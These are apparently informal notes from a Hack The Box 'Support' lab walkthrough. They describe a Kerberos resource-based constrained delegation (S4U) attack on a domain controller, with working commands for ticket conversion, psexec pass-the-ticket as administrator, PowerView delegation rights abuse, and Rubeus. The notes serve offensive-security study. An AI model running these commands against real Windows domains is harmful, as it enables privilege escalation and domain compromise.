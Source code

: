 - just rerun the genricall exploit commands again
- we save the hash generated in a file and we can use impacket ticket converter, first decode from base64
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```
then we can do 
```
KRB5CCNAME=ticket.ccache psexec -k -no-pass support/administrator@dc.support.htb
```
-k is for kerberos
if it didn't work ir might be time issues, cause kerberos is time specific (tjhat clock skew thing) so we should use mdbdate to sync time

Instal powershell on linux
Follow the video
since powershell installed in kali, just run 
```
sudo apt install mono-complete

```



things tried

Using Powerview module
```
$ComputerSid = Get-DomainComputer GR4Y -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer GR4Y | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked, we run
Get-DomainComputer GR4Y -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

it worked
![](assets/Support_assets/Pasted%20image%2020231116183637.png)
Perform the complete S4U  attack
```
.\Rubeus.exe hash /password:123456 /user:GR4Y$ /domain:support.htb
```
![](assets/Support_assets/Pasted%20image%2020231116184015.png)
